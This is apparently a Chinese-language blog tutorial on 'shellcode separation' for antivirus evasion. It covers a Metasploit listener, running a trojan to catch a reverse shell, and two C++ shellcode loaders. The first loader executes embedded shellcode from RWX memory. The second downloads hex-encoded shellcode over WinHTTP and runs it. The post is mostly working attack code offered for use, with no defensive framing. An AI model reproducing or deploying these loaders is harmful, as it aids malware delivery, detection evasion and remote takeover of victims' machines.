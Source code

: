 ## 下载shellcode

shellcode地址:[https://github.com/clinicallyinane/shellcode_launcher/](https://github.com/clinicallyinane/shellcode_launcher/)

## 反弹shell

设置msfconsole监听

[![监听](https://cuokon.github.io/image/shellcode%E5%88%86%E7%A6%BB%E5%85%8D%E6%9D%80/2.png)](https://cuokon.github.io/image/shellcode%E5%88%86%E7%A6%BB%E5%85%8D%E6%9D%80/2.png "监听")

[监听](https://cuokon.github.io/image/shellcode%E5%88%86%E7%A6%BB%E5%85%8D%E6%9D%80/2.png "监听")

`记住payload要设置对,反正反弹的shell接收不了`

然后用shell执行我们生成的木马就可以反弹shell了

[![反弹shell](https://cuokon.github.io/image/shellcode%E5%88%86%E7%A6%BB%E5%85%8D%E6%9D%80/3.gif)](https://cuokon.github.io/image/shellcode%E5%88%86%E7%A6%BB%E5%85%8D%E6%9D%80/3.gif "反弹shell")

```
#include "stdafx.h"
#include "windows.h"

using namespace std;
int main(int argc, char **argv)
{
    unsigned char buf[] =
        "\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
        "\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
        "\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
        "\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
        "\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
        "\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
        "\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
        "\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
        "\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
        "\x8d\x5d\x6a\x01\x8d\x85\xb2\x00\x00\x00\x50\x68\x31\x8b\x6f"
        "\x87\xff\xd5\xbb\xe0\x1d\x2a\x0a\x68\xa6\x95\xbd\x9d\xff\xd5"
        "\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a"
        "\x00\x53\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00";
    void *exec = VirtualAlloc(0, sizeof buf, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(exec, buf, sizeof buf);
    ((void(*)())exec)();
    return 0;
}
```

如果要把shellcode单独分离 我们可以通过其他当时获取到shellcode，而不是事先讲shellcode写死在程序中

举例：shellcode从文本提取或从远程下载获取。

这里就把shellcode通过http请求(使用winhttp api)获取赋值到内存缓存数组，动态分配内存执行shellcode:

```
#include "stdafx.h"
#include <string>
#include <iostream>
#include <windows.h>
#include <winhttp.h>
#pragma comment(lib,"winhttp.lib")
#pragma comment(lib,"user32.lib")
using namespace std;
void main()
{
    DWORD dwSize = 0;
    DWORD dwDownloaded = 0;
    LPSTR pszOutBuffer = NULL;
    HINTERNET  hSession = NULL,
        hConnect = NULL,
        hRequest = NULL;
    BOOL  bResults = FALSE;
    hSession = WinHttpOpen(L"User-Agent", WINHTTP_ACCESS_TYPE_DEFAULT_PROXY, WINHTTP_NO_PROXY_NAME, WINHTTP_NO_PROXY_BYPASS, 0);
    if (hSession)
    {
        hConnect = WinHttpConnect(hSession, L"127.0.0.1", INTERNET_DEFAULT_HTTP_PORT, 0);
    }

    if (hConnect)
    {
        hRequest = WinHttpOpenRequest(hConnect, L"POST", L"qing.txt", L"HTTP/1.1", WINHTTP_NO_REFERER, WINHTTP_DEFAULT_ACCEPT_TYPES, 0);
    }
    LPCWSTR header = L"Content-type: application/x-www-form-urlencoded/r/n";
    SIZE_T len = lstrlenW(header);
    WinHttpAddRequestHeaders(hRequest, header, DWORD(len), WINHTTP_ADDREQ_FLAG_ADD);
    if (hRequest)
    {
        std::string data = "name=host&sign=xx11sad";
        const void *ss = (const char *)data.c_str();
        bResults = WinHttpSendRequest(hRequest, 0, 0, const_cast<void *>(ss), data.length(), data.length(), 0);
        ////bResults=WinHttpSendRequest(hRequest,WINHTTP_NO_ADDITIONAL_HEADERS, 0,WINHTTP_NO_REQUEST_DATA, 0, 0, 0 );
    }
    if (bResults)
    {
        bResults = WinHttpReceiveResponse(hRequest, NULL);
    }
    if (bResults)
    {
        do
        {
            // Check for available data.
            dwSize = 0;
            if (!WinHttpQueryDataAvailable(hRequest, &dwSize))
            {
                printf("Error %u in WinHttpQueryDataAvailable.\n", GetLastError());

                break;
            }

            if (!dwSize)
                break;

            pszOutBuffer = new char[dwSize + 1];

            if (!pszOutBuffer)
            {
                printf("Out of memory\n");
                break;
            }

            ZeroMemory(pszOutBuffer, dwSize + 1);

            if (!WinHttpReadData(hRequest, (LPVOID)pszOutBuffer, dwSize, &dwDownloaded))
            {
                printf("Error %u in WinHttpReadData.\n", GetLastError());
            }
            else
            {
                printf("ok");
            }
            //char ShellCode[1024];
            int code_length = strlen(pszOutBuffer);
            char* ShellCode = (char*)calloc(code_length  /2 , sizeof(unsigned char));

            for (size_t count = 0; count < code_length / 2; count++){
                sscanf(pszOutBuffer, "%2hhx", &ShellCode[count]);
                pszOutBuffer += 2;
            }
            printf("%s", ShellCode);
            //strcpy(ShellCode,pszOutBuffer);
            void *exec = VirtualAlloc(0, sizeof ShellCode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
            memcpy(exec, ShellCode, sizeof ShellCode);
            ((void(*)())exec)();
            delete[] pszOutBuffer;
            if (!dwDownloaded)
                break;
        } while (dwSize > 0);
    }
    if (hRequest) WinHttpCloseHandle(hRequest);
    if (hConnect) WinHttpCloseHandle(hConnect);
    if (hSession) WinHttpCloseHandle(hSession);
    system("pause");
}
```
